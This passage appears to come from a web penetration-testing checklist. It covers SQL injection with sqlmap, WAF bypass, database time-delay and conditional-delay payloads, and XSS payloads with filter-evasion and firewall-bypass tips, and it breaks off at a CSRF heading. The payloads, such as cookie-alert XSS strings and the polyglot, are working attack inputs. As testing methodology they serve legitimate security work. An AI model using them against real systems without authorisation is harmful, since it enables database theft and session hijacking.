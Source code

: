     - Use SQLmap to identify vulnerabile parameters
        - [ ]  Fill form in browser GUI submit it normally
        - [ ]  Go to history tab in burpsuite and find the relevent request
        - [ ]  Right click and select the option "copy to file"
        - [ ]  Save file as anyname.txt
        - [ ]  SQLmap command to run
        - [ ]  python [sqlmap.py](http://sqlmap.py/) r ~/Desktop/textsqli.txt proxy= [http://127.0.0.1:8080](http://127.0.0.1:8080/)
    - [ ]  Run SQL injection scanner on all requests
    - Bypassing WAF
        - [ ]  Using Null byte before SQL query
        - [ ]  Using SQL inline comment sequence
        - [ ]  URL encoding
        - [ ]  Changing Cases (uppercase/lowercase)
        - [ ]  Use SQLMAP tamper scripts
    - Time Delays
        
        ```markup
              Oracle 	      dbms_pipe.receive_message(('a'),10)
              
              Microsoft 	  WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT pg_sleep(10)
              
              MySQL 	      SELECT sleep(10)
        ```
        
    - Conditional Delays
        
        ```markup
              Oracle 	      SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
              
              Microsoft 	  IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
              
              PostgreSQL 	  SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
              
              MySQL 	      SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')
        ```
        
- **Cross-Site Scripting Testing**
    - [ ]  Try XSS using QuickXSS tool by theinfosecguy
    - [ ]  Upload file using '"><img src=x onerror=alert(document.domain)>.txt
    - [ ]  If script tags are banned, use <h1> and other HTML tags
    - [ ]  If output is reflected back inside the JavaScript as a value of any variable just use alert(1)
    - [ ]  if " are filtered then use this payload /><img src=d onerror=confirm(/tushar/);>
    - [ ]  Upload a JavaScript using Image file
    - [ ]  Unusual way to execute your JS payload is to change method from POST to GET. It bypasses filters sometimes
    - Tag attribute value
        - [ ]  Input landed -<input type=”text” name=”state” value=”INPUT_FROM_ USER”>
        - [ ]  Payload to be inserted -“ onfocus=”alert(document.cookie)"
    - [ ]  Syntax Encoding payload “%3cscript%3ealert(document.cookie)%3c/script%3e"
    - XSS filter evasion
        - [ ]  < and > can be replace with html entities &lt; and &gt;
        - [ ]  You can try an XSS polyglot.Eg:-javascript:/*-></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
    - XSS Firewall Bypass
        - [ ]  Check if the firewall is blocking only lowercase
        - [ ]  Try to break firewall regex with the new line(\r\n)
        - [ ]  Try Double Encoding
        - [ ]  Testing for recursive filters
        - [ ]  Injecting anchor tag without whitespaces
        - [ ]  Try to bypass whitespaces using Bullet
        - [ ]  Try to change request method
- **CSRF Testing**